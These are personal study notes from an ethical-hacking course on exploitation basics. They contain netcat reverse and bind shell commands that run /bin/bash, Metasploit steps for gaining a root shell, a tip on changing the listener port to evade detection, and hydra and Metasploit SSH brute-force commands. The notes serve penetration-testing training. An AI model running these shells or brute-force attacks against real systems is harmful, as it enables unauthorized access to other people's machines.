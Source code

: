 ## exploitation basics

Date:  Oct 2, 2022
Course:  TCM Practical Ethical Hacker
Topics: [[peh]]  

---
### Reverse Shell vs Bind Shell

- **Reverse shell** - 
	- Attacker opens listening port. Target (victim) connects back to open port on attacker.
	- Attackbox (open port) <- Targetbox

```shell
AttackBox$ nc -nvlp 4444
```
```shell
TargetBox$ nc 192.168.0.10 4444 -e /bin/bash
```


- **Bind shell** -
	- Attacker gains access to target (victim) through exploit or other means and opens port on Target (victim). Allowing attacker to connect to open port on victim.
	- Attackbox -> Targetbox (open port)

```shell
TargetBox$ nc -nvlp 4444 -e /bin/bash
```
```shell
AttackBox$ nc 192.168.0.10 4444
```

### Staged vs Non-staged Payloads

- Non-staged
	- Sent all at once
	- Larger in size
	- Doesn't always work
	- `meterpreter_reverse_tcp`

- Staged
	- Sends payloads in stages
	- Can be less stable
	- `meterpreter/reverse_tcp` # note forward slash

- Gaining Root with Metasploit
```
msfconsole
search exploit_name
use 1 #number or full path of exploit
options #set options
set RHOSTS 192.168.0.10 # target IP
exploit #run exploit
```

- Consider changing LPORT from 4444 to reduced chance of detection
- `set payload linux` use tab autocomplete
- `set payload linux/x86/shell_reverse_tcp`
- `[*] Command shell session 12 opened` indication of successful shell
- Test with commands such as `whoami`

### Brute Force Attacks

- Kali using hydra
	- `hydra -l root -P /usr/share/wordlist/metasploit/unix_passwords.txt ssh://192.168.0.10:22 -t 4 -V`

- Using metasploit
```shell
msfconsole
msf6 > use auxiliary/scanner/ssh/ssh_log
msf6 auxiliary(scanner/ssh/ssh_login) > options
msf6 auxiliary(scanner/ssh/ssh_login) > set username root
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOST 192.168.0.10
msf6 auxiliary(scanner/ssh/ssh_login) > set threads 10
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

### Credential Stuffing and Password Stuffing
- What is credential stuffing?
	- Injecting breached account credentials in hopes of account takeover


